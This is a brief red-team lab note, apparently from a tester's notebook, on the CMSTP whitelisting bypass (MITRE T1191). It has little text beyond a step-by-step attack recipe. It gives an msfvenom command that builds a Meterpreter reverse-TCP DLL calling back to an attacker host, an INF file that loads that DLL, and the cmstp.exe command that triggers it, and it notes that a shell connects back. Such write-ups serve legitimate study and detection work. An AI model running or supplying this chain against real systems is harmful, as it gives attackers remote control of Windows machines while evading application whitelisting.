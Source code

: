 ```yaml
---
description: Bypass application whitelisting.
---
```


# T1191: CSMTP Code Execution

## Code

{% code-tabs %}
{% code-tabs-item title="evil.dll" %}
```text
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f dll > /root/tools/mitre/cmstp/evil.dll
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="f.inf" %}
```scheme
[version]
Signature=$chicago$
AdvancedINF=2.5
 
[DefaultInstall_SingleUser]
RegisterOCXs=RegisterOCXSection
 
[RegisterOCXSection]
C:\experiments\cmstp\evil.dll
 
[Strings]
AppAct = "SOFTWARE\Microsoft\Connection Manager"
ServiceName="mantvydas"
ShortSvcName="mantvydas"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Execution

```bash
PS C:\experiments\cmstp> cmstp.exe /s .\f.inf
```

## Observations

Rundll32 is sapwned which then establishes a connection back to the attacker:

![](../.gitbook/assets/cmstp-rundll32.png)

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1191\",\"type\":\"link\",\"title\":\"CMSTP - ATT&CK for Enterprise\"}" %}

{% embed data="{\"url\":\"https://pentestlab.blog/2018/05/10/applocker-bypass-cmstp/\",\"type\":\"link\",\"title\":\"AppLocker Bypass – CMSTP\",\"description\":\"CMSTP is a binary which is associated with the Microsoft Connection Manager Profile Installer. It accepts INF files which can be weaponised with malicious commands in order to execute arbitrary cod…\",\"icon\":{\"type\":\"icon\",\"url\":\"https://s1.wp.com/i/favicon.ico\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://pentestlab.files.wordpress.com/2018/05/cmstp-metasploit-multi-handler.png\",\"width\":707,\"height\":318,\"aspectRatio\":0.4497878359264498}}" %}

